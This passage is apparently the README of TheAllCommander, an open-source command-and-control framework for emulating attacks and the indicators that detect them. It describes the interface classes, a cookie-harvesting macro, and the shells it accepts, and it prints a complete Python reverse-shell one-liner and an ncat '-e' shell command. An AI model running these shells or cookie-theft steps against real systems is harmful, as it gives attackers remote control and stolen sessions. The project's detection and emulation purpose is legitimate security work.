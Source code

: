 # Defense Recommendations
TheAllCommander has an evolving guide for detection of as many client side indicators of compromise emulated by this tool as possible. It can be found here: [Blue Team Guide](blue_team/IOC_Guide.md) 

# Interfaces
Check out the [Developers Guide](DevelopersGuide.md)

There are several key classes which are described in detail in the Javadoc for this project.

At a high level, this is the user-implementable part of the workflow: To communicate with a remote agent/exploit/etc, TheAllCommander defines an abstract class c2.C2Interface. It also implements Runnable, where the programmer will implement whatever operations are necessary to initialize communications. Communiation with the rest of TheAllCommander is facilitated with the IOManager class, which is a thread safe vehicle passed to the C2 interface on initialization. The C2Interface instance can request commands relevant to connect clients from this class, as well as pass along return communications. TheAllCommander handles routing those communications to the controlling agent.

There is also an AbstractCommandMacro class which can accept commands and translate them to more complex instructions. For example, TheAllCommander comes with two macro sets out of the box. The first of these is the CookieDeletionMacro, which allows the user to simply state the command "delete_cookies". The CookieDeletionMacro will then decompose this instruction into a series of instructions that delete Firefox, Chrome, and Edge cookies for the current user session on the target system. There is also the "harvest_cookies" macro, which instructs the remote daemon to send Firefox, Chrome, and Edge cookies to TheAllCommander.

# Daemons
Currently, TheAllCommander has been tested with the following payloads:

1) Python. Currently TheAllCommander includes a HTTPS, UDP/DNS, and EMail emulation daemon. These daemons are in no way produced for operations in a real Red Team engagement, and are developed to serve as a template for further comm development. Both demonstrate use of these communication protocols in a comparable way.
		Note: The email daemon is Windows specific and has not yet been ported to Linux. 

2) Text over tcp reverse shells

	a) Msfvenom unstaged tcp payloads (windows/x64/shell_reverse_tcp and linux/x86/shell_reverse_tcp)

	b) "Python oneliner" ->  TheAllCommander can receive connections from python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.56.1\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call ([\"/bin/sh\",\"-i\"]);'
		Note: This has been tested with /bin/sh and the $ will be removed to normalize IO with a Linux ncat shell

	c) ncat <ip> <port> -e cmd | /bin/bash -> works on both Linux and Windows

	d) Powershell native text over tcp reverse shells

3) TheAllCommander has been augmented with the ability to parse C# code and serve it to a C# stager. At present, only a harmless "Hello World" example is provided to demonstrate client-side indicators of compromise. See "C# Staging" below.
